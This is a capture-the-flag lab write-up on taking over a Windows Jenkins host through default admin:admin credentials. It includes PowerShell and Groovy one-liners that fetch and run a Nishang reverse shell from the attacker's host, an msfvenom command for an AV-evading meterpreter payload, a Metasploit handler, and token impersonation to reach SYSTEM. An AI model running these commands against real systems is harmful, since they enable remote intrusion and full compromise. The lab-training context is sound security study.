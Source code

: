 ***Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.***



In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create  continuous integration/continuous development pipelines that allow  developers to automatically deploy their code once they made change to  it). After which, we'll use an interesting privilege escalation method  to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts  for initial access, enumeration and privilege escalation. In this case,  we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

#  Initial Access

## Nmap

```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-20 13:13 IST
Nmap scan report for 10.10.168.142
Host is up (0.16s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: ALFRED
|   NetBIOS_Domain_Name: ALFRED
|   NetBIOS_Computer_Name: ALFRED
|   DNS_Domain_Name: alfred
|   DNS_Computer_Name: alfred
|   Product_Version: 6.1.7601
|_  System_Time: 2022-04-20T07:45:01+00:00
|_ssl-date: 2022-04-20T07:45:04+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2022-04-19T07:41:05
|_Not valid after:  2022-10-19T07:41:05
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 2s

```

`username:password  admin:admin`

​                                                            

Find a feature of the tool that  allows you to execute commands on the underlying system. When you find  this feature, you can use this command to get the reverse shell on your  machine and then run it: *powershell iex (New-Object  Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port*

You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: `python3 -m http.server`

 ```powershell
 powershell iex (New-Object  Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
 ```

# Switching Shells

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

This payload generates an encoded x86-64 reverse tcp meterpreter payload.  Payloads are usually encoded to ensure that they are transmitted  correctly, and also to evade anti-virus products. An anti-virus product  may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```

Before running this program, ensure the handler is set up in metasploit:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip set LPORT listening-port run
```

﻿This step uses the metasploit handler to receive the incoming connection  from you reverse shell. Once this is running, enter this command to  start the reverse shell

```
Start-Process "shell-name.exe"
```

This should spawn a meterpreter shell for you!

**In Practical**

---------

*groovy comand*  for reverse shell

```shell
println "powershell iex (New-Object  Net.WebClient).DownloadString('http://10.17.4.58:1234/PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.4.58 -Port 8888".execute().text
```

sending payload

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.17.4.58:1/tc.exe','tc.exe')"
```

---------

# Privilege Escalation                            

Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry  out particular actions. Account tokens are assigned to an account when  users log in or are authenticated. This is usually done by  LSASS.exe(think of this as an authentication process).

This access token consists of:

- user SIDs(security identifier)
- group SIDs
- privileges

amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

There are two types of access tokens:

- primary access tokens: those associated with a user account that are generated on log on
- impersonation tokens: these allow a particular process(or thread in a process) to  gain access to resources using the token of another (user/client)  process

For an impersonation token, there are different levels:

- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when  created or inherited from a group) allow a user to carry out particular  actions. Here are the most commonly abused privileges:

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).

​                                                            

- View all the privileges using whoami /priv

  

- You can see that two  privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's  use the incognito module that will allow us to exploit this  vulnerability. Enter: *load incognito* to load the incognito module in metasploit. Please note, you may need to use the *use incognito* command if the previous command doesn't work. Also ensure that your metasploit is up to date.



- To check which tokens are available, enter the *list_tokens -g*. We can see that the *BUILTIN\Administrators* token is available. Use the *impersonate_token "BUILTIN\Administrators"* command to impersonate the Administrators token. What is the output when you run the *getuid* command?                            

- Even though you have a higher  privileged token you may not actually have the permissions of a  privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate  to a process with correct permissions (above questions answer). The  safest process to pick is the services.exe process. First use the *ps* command to view processes and find the PID of the services.exe process. Migrate to this process using the command *migrate PID-OF-PROCESS*

